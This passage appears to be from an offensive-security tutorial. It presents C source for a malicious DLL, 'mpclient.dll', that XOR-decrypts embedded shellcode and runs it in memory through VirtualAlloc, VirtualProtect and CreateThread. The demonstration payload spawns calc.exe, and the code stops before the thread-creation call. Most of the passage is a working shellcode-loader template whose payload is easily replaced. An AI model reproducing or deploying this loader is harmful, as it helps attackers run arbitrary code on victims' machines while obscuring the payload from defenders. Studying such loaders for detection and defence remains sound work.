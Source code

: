 We're going to create a relatively straightforward DLL which uses XOR decryption to decrypt shellcode and launch it via _CreateThread_. Upon execution, the shellcode will launch _calc.exe_ as a proof-of-concept.

Here is the template code for our malicious DLL **mpclient.dll** which will run shellcode to spawn _calc.exe_:
```
#include "pch.h"
#include <windows.h>

// XOR function
void XOR(char* data, size_t data_len, char* key, size_t key_len) {
	int j;

	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}

// Calc.exe shellcode (exit function = thread)
unsigned char payload[] = { 0xac,0x08,0xf0,0x97,0x87,0xd8,0xf0,0x30,0x72,0x64,0x60,0x01,0x01,0x23,0x21,0x26,0x66,0x78,0x01,0xa0,0x01,0x69,0xdb,0x12,0x13,0x3b,0xfc,0x62,0x28,0x78,0xf9,0x36,0x01,0x18,0xcb,0x01,0x23,0x3f,0x3f,0x87,0x7a,0x38,0x29,0x10,0x99,0x08,0x42,0xb3,0xdb,0x0c,0x51,0x4c,0x70,0x48,0x01,0x11,0x81,0xba,0x7e,0x36,0x31,0xf1,0xd2,0x9f,0x36,0x60,0x01,0x08,0xf8,0x21,0x57,0xbb,0x72,0x0c,0x3a,0x65,0xf1,0xdb,0xc0,0xfb,0x73,0x77,0x30,0x78,0xb5,0xb2,0x10,0x46,0x18,0x41,0xa3,0x23,0xfc,0x78,0x28,0x74,0xf9,0x24,0x01,0x19,0x41,0xa3,0x90,0x21,0x78,0xcf,0xf9,0x33,0xef,0x15,0xd8,0x08,0x72,0xa5,0x3a,0x01,0xf9,0x78,0x43,0xa4,0x8d,0x11,0x81,0xba,0x7e,0x36,0x31,0xf1,0x08,0x92,0x11,0xd0,0x1c,0x43,0x3f,0x57,0x7f,0x75,0x09,0xe1,0x07,0xbc,0x79,0x14,0xcb,0x33,0x57,0x3e,0x31,0xe0,0x56,0x33,0xef,0x2d,0x18,0x04,0xf8,0x33,0x6b,0x79,0x31,0xe0,0x33,0xef,0x25,0xd8,0x08,0x72,0xa3,0x36,0x68,0x71,0x68,0x2c,0x3d,0x7b,0x11,0x18,0x32,0x2a,0x36,0x6a,0x78,0xb3,0x9e,0x44,0x60,0x02,0xbf,0x93,0x2b,0x36,0x69,0x6a,0x78,0xf9,0x76,0xc8,0x07,0xbf,0x8c,0x8c,0x2a,0x78,0x8a,0x31,0x72,0x64,0x21,0x50,0x40,0x73,0x73,0x3f,0xbd,0xbd,0x31,0x73,0x64,0x21,0x11,0xfa,0x42,0xf8,0x18,0xb7,0xcf,0xe5,0xc9,0x84,0x3c,0x7a,0x4a,0x32,0xc9,0xd1,0xa5,0x8d,0xad,0x8d,0xb1,0x69,0xd3,0x84,0x5b,0x4f,0x71,0x4c,0x3a,0xb0,0x89,0x84,0x54,0x55,0xfb,0x34,0x60,0x05,0x5f,0x5a,0x30,0x2b,0x25,0xa8,0x8a,0xbf,0xa6,0x10,0x16,0x5c,0x53,0x1e,0x17,0x1c,0x44,0x50 };
unsigned int payload_len = sizeof(payload);

// Standard function to allocate memory, copy shellcode to it, and execute the thread
extern __declspec(dllexport) int RunThis(void);
int RunThis(void) {

	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	// Decryption key
	char key[] = "P@ssw000rd!";

	// Decrypt the shellcode
	XOR((char*)payload, payload_len, key, sizeof(key));

	// Allocate memory
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to the buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
```